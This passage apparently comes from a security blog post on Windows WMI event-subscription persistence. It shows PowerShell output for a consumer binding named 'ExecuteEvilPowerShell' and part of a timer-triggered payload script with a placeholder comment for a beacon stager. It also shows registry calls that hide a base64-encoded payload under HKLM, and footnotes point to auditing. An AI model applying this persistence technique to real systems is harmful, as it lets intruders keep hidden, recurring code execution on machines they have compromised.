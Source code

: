 **FilterToConsumerBinding**
{% highlight powershell%}
Get-WmiObject -Namespace root\subscription -Class __FilterToConsumerBinding
{% endhighlight %}
Result: 
[snip]
{% highlight powershell%}
__NAMESPACE             : ROOT\subscription
**__PATH                  : \\W10B1\ROOT\subscription:__FilterToConsumerBinding.Consumer="CommandLineEventConsumer.Name=\"ExecuteEvilPowerShell\"",Filter="__EventFilter.Name=\"TimerTrigger\""**
**Consumer                : CommandLineEventConsumer.Name="ExecuteEvilPowerShell"**
CreatorSID              : {1, 5, 0, 0...}
DeliverSynchronously    : False
DeliveryQoS             : 
**Filter                  : __EventFilter.Name="TimerTrigger"**
{% endhighlight %}

As we can observe, this persistence is based off a Timer *intrinsic* Event type. If you launched it and head to C:\ you will see the *payload\_result.txt* file as per the script: 

{% highlight powershell %}
$TimerArgs = @{
    IntervalBetweenEvents = ([UInt32] 6000) # 6000 ms == 1 min
    SkipIfPassed = $False
    TimerId = $TimerName
}

$Payload = {
    # Prep your raw beacon stager along with Invoke-Shellcode here
    "Owned at $(Get-Date)" | Out-File C:\payload_result.txt
}
{% endhighlight %}

Let's look at the persistent registry key generated by the script via `Invoke-WmiMethod -Namespace root/default -Class StdRegProv -Name CreateKey -ArgumentList @($HiveVal, $PayloadKey)` (*creating the Registry Key*) & `Invoke-WmiMethod -Namespace root/default -Class StdRegProv -Name SetStringValue -ArgumentList @($HiveVal, $PayloadKey, $EncodedPayload, $PayloadValue)` (*storing the payload value inside the key*)

{% highlight powershell %}
PS C:\Windows\system32> Get-ItemProperty 'HKLM:\SOFTWARE\PayloadKey'

PayloadValue : DQAKACAAIAAgACAAIwAgAFAAcgBlAHAAIAB5AG8AdQByACAAcgBhAHcAIABiAGUAYQBjAG8AbgAgAHMAdABhAGcAZQByACAAYQBsAG8AbgBnACAAdwBpAHQAaAAgAEkAbgB2AG8AawBlAC0AUwBoAGUAbABsAGMAbwBkAGUAIABoAGUAcgBlAA0ACgANAAoAIAAgACAAIAAiAE8AdwBuAGUAZAAgAGEAdAAgACQAKABHAGUAdAAtAEQAYQB0AGUAKQAiACAAfAAgAE8AdQB0AC0ARgBpAGwAZQAgAEMAOgBcAHAAYQB5AGwAbwBhAGQAXwByAGUAcwB1AGwAdAAuAHQAeAB0AA0ACgA=
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\PayloadKey
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE
PSChildName  : PayloadKey
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry
{% endhighlight %}


[^1]: Since Win 8 and Server 2012: http://windowsitpro.com/security/understanding-and-enabling-command-line-auditing
[^2]: EventCode 400 sample contents:
[^3]: EventCode 403 sample contents: